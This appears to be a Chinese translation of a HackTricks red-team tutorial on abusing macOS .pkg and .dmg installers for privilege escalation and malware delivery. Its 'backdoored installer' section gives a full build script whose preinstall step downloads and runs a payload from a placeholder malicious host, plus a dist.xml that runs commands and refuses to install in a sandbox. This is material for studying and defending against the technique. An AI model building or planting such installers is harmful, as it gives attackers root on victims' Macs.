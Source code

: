 # macOS 安装程序滥用

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## pkg 基本信息

macOS **安装包**（也称为 `.pkg` 文件）是一种文件格式，用于 macOS **分发软件**。这些文件就像一个 **包含软件安装和正常运行所需的一切的盒子**。

包文件本身是一个存档，包含一个 **将在目标计算机上安装的文件和目录的层次结构**。它还可以包括 **脚本**，在安装前后执行任务，例如设置配置文件或清理旧版本的软件。

### 层次结构

<figure><img src="../../../.gitbook/assets/Pasted Graphic.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption></figcaption></figure>

* **分发 (xml)**：自定义（标题、欢迎文本……）和脚本/安装检查
* **PackageInfo (xml)**：信息、安装要求、安装位置、要运行的脚本路径
* **材料清单 (bom)**：要安装、更新或删除的文件列表及文件权限
* **有效载荷 (CPIO 存档 gzip 压缩)**：从 PackageInfo 中在 `install-location` 安装的文件
* **脚本 (CPIO 存档 gzip 压缩)**：安装前和安装后的脚本以及提取到临时目录以供执行的更多资源。

### 解压缩
```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```
为了在不手动解压缩的情况下可视化安装程序的内容，您还可以使用免费的工具 [**Suspicious Package**](https://mothersruin.com/software/SuspiciousPackage/)。

## DMG 基本信息

DMG 文件，或称 Apple 磁盘映像，是苹果的 macOS 用于磁盘映像的文件格式。DMG 文件本质上是一个 **可挂载的磁盘映像**（它包含自己的文件系统），其中包含通常被压缩且有时被加密的原始块数据。当您打开 DMG 文件时，macOS **将其挂载，就像它是一个物理磁盘**，允许您访问其内容。

{% hint style="danger" %}
请注意，**`.dmg`** 安装程序支持 **如此多的格式**，以至于在过去，一些包含漏洞的格式被滥用以获得 **内核代码执行**。
{% endhint %}

### 层级结构

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

DMG 文件的层级结构可以根据内容而有所不同。然而，对于应用程序 DMG，它通常遵循以下结构：

* 顶层：这是磁盘映像的根。它通常包含应用程序，并可能包含指向应用程序文件夹的链接。
* 应用程序 (.app)：这就是实际的应用程序。在 macOS 中，应用程序通常是一个包含许多单独文件和文件夹的包，这些文件和文件夹构成了该应用程序。
* 应用程序链接：这是指向 macOS 中应用程序文件夹的快捷方式。这样做的目的是方便您安装应用程序。您可以将 .app 文件拖到此快捷方式上以安装该应用程序。

## 通过 pkg 滥用进行权限提升

### 从公共目录执行

如果预安装或后安装脚本例如从 **`/var/tmp/Installerutil`** 执行，攻击者可以控制该脚本，从而在每次执行时提升权限。或者另一个类似的例子：

<figure><img src="../../../.gitbook/assets/Pasted Graphic 5.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption><p><a href="https://www.youtube.com/watch?v=kCXhIYtODBg">https://www.youtube.com/watch?v=kCXhIYtODBg</a></p></figcaption></figure>

### AuthorizationExecuteWithPrivileges

这是一个 [公共函数](https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg)，多个安装程序和更新程序将调用它以 **以 root 身份执行某些操作**。此函数接受要 **执行** 的 **文件** 的 **路径** 作为参数，然而，如果攻击者能够 **修改** 此文件，他将能够 **滥用** 其以 root 身份执行以 **提升权限**。
```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```
For more info check this talk: [https://www.youtube.com/watch?v=lTOItyjTTkw](https://www.youtube.com/watch?v=lTOItyjTTkw)

### 执行通过挂载

如果安装程序写入 `/tmp/fixedname/bla/bla`，可以 **创建一个挂载** 在 `/tmp/fixedname` 上，没有所有者，这样你就可以 **在安装过程中修改任何文件** 来滥用安装过程。

一个例子是 **CVE-2021-26089**，它成功地 **覆盖了一个定期脚本** 以获得 root 权限。有关更多信息，请查看这个演讲: [**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**](https://www.youtube.com/watch?v=jSYPazD4VcE)

## pkg 作为恶意软件

### 空载荷

可以仅生成一个 **`.pkg`** 文件，包含 **安装前和安装后脚本**，而没有任何实际载荷，除了脚本中的恶意软件。

### 分发 xml 中的 JS

可以在包的 **分发 xml** 文件中添加 **`<script>`** 标签，这段代码将被执行，并且可以 **使用 `system.run` 执行命令**：

<figure><img src="../../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### 后门安装程序

恶意安装程序使用脚本和 dist.xml 中的 JS 代码
```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
<title>Malicious Installer</title>
<options customize="allow" require-scripts="false"/>
<script>
<![CDATA[
function installationCheck() {
if (system.isSandboxed()) {
my.result.title = "Cannot install in a sandbox.";
my.result.message = "Please run this installer outside of a sandbox.";
return false;
}
return true;
}
function volumeCheck() {
return true;
}
function preflight() {
system.run("/path/to/preinstall");
}
function postflight() {
system.run("/path/to/postinstall");
}
]]>
</script>
<choices-outline>
<line choice="default">
<line choice="myapp"/>
</line>
</choices-outline>
<choice id="myapp" title="MyApp">
<pkg-ref id="com.malicious.myapp"/>
</choice>
<pkg-ref id="com.malicious.myapp" installKBytes="0" auth="root">#myapp.pkg</pkg-ref>
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```
## 参考文献

* [**DEF CON 27 - 解包 Pkgs 深入了解 Macos 安装包及常见安全漏洞**](https://www.youtube.com/watch?v=iASSG0\_zobQ)
* [**OBTS v4.0: "macOS 安装程序的奇妙世界" - Tony Lambert**](https://www.youtube.com/watch?v=Eow5uNHtmIg)
* [**DEF CON 27 - 解包 Pkgs 深入了解 MacOS 安装包**](https://www.youtube.com/watch?v=kCXhIYtODBg)
* [https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages](https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
